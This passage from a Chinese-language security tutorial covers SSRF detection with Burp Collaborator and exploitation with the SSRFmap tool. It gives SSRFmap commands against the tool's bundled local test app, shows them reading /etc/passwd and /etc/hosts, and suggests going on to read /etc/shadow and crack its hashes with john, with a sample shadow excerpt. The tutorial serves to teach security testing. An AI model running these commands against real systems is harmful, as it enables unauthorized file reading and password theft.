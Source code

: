 这个检测方法比较通用简单，且无须自己搭建 DNS 服务器，非常方便，我强烈推荐。

#### 2.工具：SSRFmap

这里给大家介绍一款 SSRF 检测工具：[SSRFmap](https://github.com/swisskyrepo/SSRFmap)，利用它可检测与利用 SSRF 漏洞， 同时它也整合了一些常用漏洞可以结合 SSRF 去利用，比如 fastjson、mysql、github 的一些历史漏洞，还有端口扫描、读取文件等利用功能，都是实用的漏洞利用能力。

使用上会比 Burp Collaborator 便捷，但检测能力上其实没有 Burp Collaborator 那样准确，SSRFmap 有时会利用失败。所以个人推荐使用 Burp Collaborator 用来检测 SSRF 是否存在，再使用 SSRFmap 做一些漏洞利用，比如读取敏感文件等操作。

SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：

![Drawing 11.png](https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___PiASgPlAAEZ_x3Bz0k961.png)  
图 12：SSRFmap

用其自带的测试用例，试用下：

```java
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

其中 data/request.txt 内容如下：

```java
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1
url=https%3A%2F%2Fwww.google.fr%
```

它会读取很多敏感文件，比如 /etc/passwd、/etc/hosts：

![Drawing 12.png](https://s0.lgstatic.com/i/image/M00/8D/98/CgqCHl___QOAXop9AAFeL92aWyk084.png)  
图 13：利用 SSRFmap 读取本地文件

以上我们测试了，然后读取了敏感文件，然后好像就戛然而止了，读取之后就没有下文了。比如你想破解主机密码，就可以读取文件 /etc/shadow 以获得用户名和密码密文，然后就可以用 john 去破解密码：

```java
$ sudo cat /etc/shadow
root:$6$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0:18446:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
......
```
